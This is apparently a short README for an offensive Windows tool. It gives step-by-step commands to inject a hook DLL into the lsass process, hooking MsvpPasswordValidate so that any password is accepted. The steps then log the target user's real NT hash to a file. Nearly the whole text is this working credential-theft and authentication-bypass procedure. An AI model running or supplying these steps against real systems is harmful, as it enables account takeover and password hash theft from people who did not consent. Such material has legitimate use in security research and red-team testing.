 Hook MsvpPasswordValidate, enter any password (correct or not) and intercept the NT hash of the user's password.

How to proceed:</br></br>

Lets retrieve the pid of lsass : nthash-win64 /enumproc | findstr lsass</br>
NTHASH-win64.exe /inject /pid:808 /binary:c:\temp\hook-win64.dll</br>
optionally, check that our dll as been injected : NTHASH-win64.exe /enummod /pid:808 | findstr hook</br>
test runas /user:Admin cmd OR log on remotely (provide any password) : you win!</br>
NTHASH-win64.exe /eject /pid:808 /binary:hook-win64.dll</br>
optionally, check that our dll as been ejected : NTHASH-win64.exe /enummod /pid:808 | findstr hook</br>
check c:\log.txt and obtain the (correct) hash of the user you targeted</br>
</br></br>
This was inspired by this post : https://twitter.com/FuzzySec/status/1292495775512113152 .

